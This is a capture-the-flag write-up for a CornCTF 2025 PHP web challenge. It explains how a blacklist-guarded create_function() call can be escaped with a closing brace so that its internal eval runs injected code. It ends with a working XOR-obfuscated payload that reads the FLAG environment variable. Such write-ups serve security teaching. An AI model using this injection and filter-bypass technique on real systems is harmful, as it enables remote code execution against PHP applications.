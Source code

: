 ```yaml
---
title: CornCTF 2025 - phpislovephpislife 3
date: 2025-07-28
lastmod: 2025-07-28T19:59:34+02:00
categories:
  - writeup
  - cornCTF25
tags:
  - web
  - php
  - medium
authors:
  - Valenter
---
```

As the title suggests, straightforward PHP shenanigans.

Let's dive in.

## Overview

There's only one file we need to look at, and the author has been kind enough to highlight the relevant parts for us

```php
if (isset($_POST['code'])) {

    $code = $_POST['code'];
    // I <3 blacklists
    $characters = ['\`', '\[', '\*', '\.', '\\\\', '\=', '\+', '\$'];
    $classes = get_declared_classes();
    $functions = get_defined_functions()['internal'];
    $strings = ['eval', 'include', 'require', 'function', 'flag', 'echo', 'print', '\$.*\{.*\$', '\}[^\{]*\}', '?>'];
    $variables = ['_GET', '_POST', '_COOKIE', '_REQUEST', '_SERVER', '_FILES', '_ENV', 'HTTP_ENV_VARS', '_SESSION', 'GLOBALS', 'variables', 'strings', 'blacklist', 'functions', 'classes', 'code'];

    $blacklist = array_merge($characters, $classes, $functions, $variables, $strings);

    foreach ($blacklist as $blacklisted) {

        if (preg_match('/' . $blacklisted . '/im', $code)) {

            $output = 'No hacks pls';
        }
    }

    if (count($_GET) != 0 || count($_POST) > 1) {
        $output = 'No hacks pls';
    }

    if (!isset($output)) {
        $my_function = create_function('', $code);
        // $output = $my_function(); // I don't trust you
        $output = 'This function is disabled.';
    }
    echo $output;
}
```

There's a pretty strict blacklist in place that won't allow us to use any of the convenient php tools to carry out our exploit: no built-in functions, no superglobals and very few available symbols.

What are we exploiting exactly?

This part right here:

```php
    if (!isset($output)) {
        $my_function = create_function('', $code);
        // $output = $my_function(); // I don't trust you
        $output = 'This function is disabled.';
    }
    echo $output;
```
The author thought cleverly to stop our function from executing by commenting `$output` out, unfortunately for him, though, `create_function` still takes our input as an argument, so we can just insert our own comment at the end of our inputted code and let the `eval` that create_function runs internally do its magic.

### How does this work *exactly*

Internally, eval does something of the sort:
```php
$wrapper = 'function __lambda'.$uniq.'() { ' . $code . '; }';
```
and then runs `eval($wrapper)`

Everything inside `{}` doesn't get executed but is rather defined as the function's body;
**however**, if we close the curly bracket at the start of our injected code, we can leave the function's context and `eval` will execute our code, granting us RCE.

But how do we take advantage of this?

There are a few flaws in the blacklist implementation, notably, it allows `die()` and several symbols that we can use to craft a payload.

## Exploitation phase

With a bit of fuzzing and recalling that PHP allows operations on strings such as XOR, we can obfuscate our input `die(getenv(flag))` in such a way that it bypasses the blocklist.

Final payload:
```php
};die(('WUDU^F'^'000000')(('v|qw')^'0000'));//
```
- `'WUDU^F'^'000000'` is `getenv` xorred
- `'v|qw')^'0000'` is `FLAG` xorred

This is only possible because PHP allows functions to be called by referencing them as strings

https://www.youtube.com/watch?v=hRnUR7fJdaU&list=RDhRnUR7fJdaU&start_radio=1

